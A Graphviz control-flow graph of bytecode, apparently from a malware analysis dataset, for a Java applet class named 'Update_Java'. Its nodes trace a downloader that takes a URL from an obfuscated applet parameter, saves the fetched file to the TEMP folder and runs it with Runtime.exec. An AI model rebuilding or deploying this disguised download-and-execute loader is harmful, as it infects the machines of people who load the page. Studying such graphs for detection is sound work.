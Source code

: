 digraph "" {
    "r0 := @this: Update_Java"
    "load.r r0"
    "r0 := @this: Update_Java"->"load.r r0";
    "push \"fviolhxpow4\""
    "load.r r0"->"push \"fviolhxpow4\"";
    "virtualinvoke <Update_Java: java.lang.String getParameter(java.lang.String)>"
    "push \"fviolhxpow4\""->"virtualinvoke <Update_Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Update_Java: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"TEMP\""
    "store.r r1"->"push \"TEMP\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"TEMP\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"fqizqni8mhm\""
    "load.r r0"->"push \"fqizqni8mhm\"";
    "push \"fqizqni8mhm\""->"virtualinvoke <Update_Java: java.lang.String getParameter(java.lang.String)>";
    "pop"
    "virtualinvoke <Update_Java: java.lang.String getParameter(java.lang.String)>"->"pop";
    "new java.io.FileOutputStream"
    "pop"->"new java.io.FileOutputStream";
    "store.r $r11"
    "new java.io.FileOutputStream"->"store.r $r11";
    "load.r $r11"
    "store.r $r11"->"load.r $r11";
    "new java.lang.StringBuilder"
    "load.r $r11"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"srk9zomo4dg\""
    "load.r r0"->"push \"srk9zomo4dg\"";
    "push \"srk9zomo4dg\""->"virtualinvoke <Update_Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Update_Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r0"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r0";
    "push 1024"
    "store.r r0"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r8"
    "newarray"->"store.r r8";
    "store.r r8"->"load.r r0";
    "load.r r8"
    "load.r r0"->"load.r r8";
    "push 0"
    "load.r r8"->"push 0";
    "push 0"->"load.r r8";
    "arraylength"
    "load.r r8"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r0"
    "push -1"->"ifcmpeq.i load.r r0";
    "ifcmpeq.i load.r r0"->"load.r $r11";
    "load.r $r11"->"load.r r8";
    "load.r r8"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "return"
    "staticinvoke <java.lang.System: void exit(int)>"->"return";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r11";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r11"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto return";
}
